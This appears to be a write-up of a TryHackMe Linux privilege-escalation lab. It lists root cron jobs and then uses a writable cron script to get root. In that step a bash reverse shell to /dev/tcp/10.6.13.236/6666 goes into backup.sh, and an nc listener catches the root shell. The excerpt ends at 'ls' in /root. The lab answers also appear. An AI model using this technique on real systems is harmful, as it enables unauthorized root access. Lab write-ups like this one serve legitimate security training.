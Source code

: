 Any user can read the file keeping system-wide cron jobs under /etc/crontab

While CTF machines can have cron jobs running every minute or every 5 minutes, you will more often see tasks that run daily, weekly or monthly in penetration test engagements.


### How many user-defined cron jobs can you see on the target system?  
```
karen@ip-10-10-67-121:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py


karen@ip-10-10-67-121:~$ 

4

```

### What is the content of the flag5.txt file?

```
karen@ip-10-10-67-121:~$ cat backup.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.6.13.236/6666 0>&1

karen@ip-10-10-67-121:~$ chmod +x backup.sh


┌──(kali㉿kali)-[~/tryhackme/linprivesc]
└─$ nc -lnvp 6666            
listening on [any] 6666 ...
connect to [10.6.13.236] from (UNKNOWN) [10.10.67.121] 60018
bash: cannot set terminal process group (12665): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-67-121:~# cd /root
cd /root
root@ip-10-10-67-121:~# ls
```